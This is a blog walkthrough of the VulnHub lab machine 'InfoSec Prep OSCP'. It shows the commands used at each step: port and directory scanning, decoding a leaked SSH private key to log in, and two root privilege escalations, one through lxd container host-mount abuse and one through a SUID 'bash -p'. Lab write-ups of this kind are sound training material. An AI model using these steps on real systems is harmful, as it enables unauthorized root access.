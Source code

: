 ```yaml
---
layout: post
title: InfoSec Prep OSCP - Vuln Hub Machine
description: >
    Detailed walkthrough  of the machine Infosec Prep OSCP that was released on VulnHub 11 Jul 2020 by FalconSpy 
sitemap: false
categories: [VulnHub]
permalink: /:categories/InfoSec_Prep_OSCP.html
---
```

* toc
{:toc .large-only}

## Machine Summary
Machine has a web application running, upon enumerating the directories /secret.txt contains a SSH Private key which is encoded in base64. After decryption, we can login as user **oscp** with the SSH Private key. we can esclate the privileges to root in two ways 1. Exploiting the lxd group 2. Exploiting the SUID - Bash

## Nmap Scan
As the golden rule i started with nmap scan
```bash
nmap -sC -sV -p- 192.168.0.101
```
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/1.png)
It has two ports open 

| Port         | Service           |
|:-------------|:------------------|
| 22           | ssh               |
| 80           | http              |
| 33060        | mysqlx            |

## Enumeration on Port 80

I started to enumerate on the site, it was a wordpress site so i ran a wpscan on it but nothing poped up. I manually enumerated on the site but i ended up with no usefull information for enumeration
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/2.png)

I ran gobuster on the site to enumerate the files and directories
```bash
gobuster dir -u http://192.168.0.101/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,conf
```
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/3.png)

secret.txt seems to be interesting, I opened it on the browser

![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/5.png)

## Acquiring User Shell
It was encoded on base64 so i decoded it, viewing that it was a SSH private key 
```bash
echo "Base64_Hash" |base64 -d >> id_rsa
```
We need some usernames to login through ssh using the private key so i tried guessing username and username ***oscp*** worked.
We also need to add permissions to the private key
```bash
chmod 600 id_rsa
```
I logged in onto the machine using the private key for the user oscp
```bash
ssh -i id_rsa oscp@192.168.0.101
```
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/6.png)

## Privilege Escalation

I enumerated the machine with current privilege as oscp, found two things that could grant us root shell

1. User is part of lxd group
2. Suid was configured for /usr/bin/bash

By these two ways, we can proceed to root.

## Privilege Escalation through Exploiting lxd group 

**LXC** —short for “Linux containers”, is a solution for virtualizing software at the operating system level within the Linux kernel.

**LXD** is a management API for dealing with LXC containers on Linux systems. It will perform tasks for any members of the  local lxd group.
ie. a low privilege user can create a bridge between sockets on the host and its containers. when bridging from an existing socket on the host to a new socket in a container, it makes the connection with the credentials of the LXD service. so when user speaks to the container, the messages (command) and it lands on the container with root privileges (commands are executed with the root)

Executing lxc directly didn't work so i tried executing it with the full path of the binary file ie. /snap/bin/lxc
```bash
/snap/bin/lxc
```
First i created a storage pool
```bash
/snap/bin/lxd init
```
I moved on with the default settings, now we need to create a container called test 
```bash
/snap/bin/lxc init ubuntu:18.04 test -c security.privileged=true
```
We configure that container such that all the files and folders of the host is copied or present in /mnt/root directory
```bash
/snap/bin/lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
```
Now we need to start the container called test
```bash
/snap/bin/lxc start test
```
We execute the container
```
/snap/bin/lxc exec test bash
```
Now we go into the directory **/mnt/root/root** to get the flag.txt

![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/7.png)

![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/8.png)

**This exploit methodolgy will only work when the target machine has access to internet**
{:.note title="Attention"}

## Exploiting the misconfigured SUID - bash

**SUID** - SUID is nothing but a special permission bit available in Linux, that achieves this with a lot of ease. If you are the owner of an executable file, with the help of SUID permission set, other users will be running the executable with your  permission and not theirs. 

We can list the binaries with SUID permissions using the command below
```bash
find / -perm -u=s -type f 2>/dev/null
```
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/9.png)
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/10.png)

Bash was the juicy binary. we can exploit it to get the root privilege

[**GetFoBins**](https://gtfobins.github.io/#+suid)

```bash
bash -p
``` 
This granted us the shell with root privilege

![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/11.png)

Happy Hacking !
